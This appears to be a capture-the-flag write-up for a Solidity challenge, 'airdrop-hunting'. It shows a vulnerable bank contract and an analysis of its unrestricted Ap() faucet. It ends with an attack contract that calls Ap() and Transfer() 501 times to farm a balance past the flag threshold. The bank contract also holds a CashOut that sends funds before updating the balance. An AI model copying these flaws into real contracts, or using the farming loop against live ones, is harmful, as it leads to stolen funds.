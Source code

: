 # airdrop-hunting(CoinFlip)

## contract

```solidity
pragma solidity ^0.4.24;

contract P_Bank{
    mapping (address => uint) public balances;
    uint public MinDeposit = 0.1 ether;
    Log TransferLog;

    event FLAG(string b64email, string slogan);

    constructor(address _log) public {
        TransferLog = Log(_log);
     }

    function Ap() public {
        if(balances[msg.sender] == 0) {
            balances[msg.sender]+=1 ether;
        }
    }

    function Transfer(address to, uint val) public {
        if(val > balances[msg.sender]) {
            revert();
        }
        balances[to]+=val;
        balances[msg.sender]-=val;
    }

    function CaptureTheFlag(string b64email) public returns(bool){
      require (balances[msg.sender] > 500 ether);
      emit FLAG(b64email, "Congratulations to capture the flag!");
    }


    function Deposit() public payable {
        if(msg.value > MinDeposit) {
            balances[msg.sender]+= msg.value;
            TransferLog.AddMessage(msg.sender,msg.value,"Deposit");
        }
    }

    function CashOut(uint _am) public{
        if(_am<=balances[msg.sender]){
            if(msg.sender.call.value(_am)()){
                balances[msg.sender]-=_am;
                TransferLog.AddMessage(msg.sender,_am,"CashOut");
            }
        }
    }

    function() public payable{}

}

contract Log{

    struct Message{
        address Sender;
        string  Data;
        uint Val;
        uint  Time;
    }

    string err = "CashOut";
    Message[] public History;

    Message LastMsg;

    function AddMessage(address _adr,uint _val,string _data) public {
        LastMsg.Sender = _adr;
        LastMsg.Time = now;
        LastMsg.Val = _val;
        LastMsg.Data = _data;
        History.push(LastMsg);
    }
}
```

## analyses

The person who does not have money in P_Bank can call `AP()` to get 1 ETH. But the contract doesn't record who has called it! It means that I can call `AP()` and get money, transfer it to others, get money ,transfer.......it is convenience for a contract to do it .

By the way, even if the contract records the users who have called `AP()`, we can still create many accounts to operate. Creating accounts in Ethereum is an easy task. This is called "撸空投" in Chinese.

## solve

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.4.24;

import "./03.CoinFlip.sol";

contract CoinFlipAttackAttack {
    P_Bank c;

    constructor(address _addr) public {
        c = P_Bank(_addr);
    }

    function attack() public payable {
        for (uint i = 0; i < 501; i++) {
            c.Ap();
            c.Transfer(msg.sender, 1 ether);
        }
    }
}
```

console output

![https://moe.photo/images/2023/05/21/image-20230521144949607.png](https://moe.photo/images/2023/05/21/image-20230521144949607.png)
